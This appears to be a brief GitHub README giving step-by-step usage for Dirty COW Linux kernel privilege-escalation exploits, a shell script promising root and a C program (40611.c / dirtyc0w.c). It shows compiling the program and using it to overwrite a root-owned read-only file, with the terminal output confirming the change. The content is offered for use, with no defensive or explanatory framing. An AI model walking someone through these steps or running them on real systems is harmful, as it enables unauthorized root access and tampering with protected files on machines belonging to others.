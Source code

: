 ### Steps: run_exec.sh 
 1. Download .sh file 
 1. make exec and run 

 You will get root
 
### Steps: 40611.c 

 1. Download .c 
 2. compile the c code 
 3. Run on read only/root protected file 

    ```sh 
    $ ls -lah foo
    -r-----r-- 1 root root 19 Oct 20 15:23 foo
    $ cat foo
    this is not a test
    $ gcc -pthread dirtyc0w.c -o dirtyc0w
    $ ./dirtyc0w foo m00000000000000000
    mmap 56123000
    madvise 0
    procselfmem 1800000000
    $ cat foo
    m00000000000000000
```

File foo will be modified - dirtycOw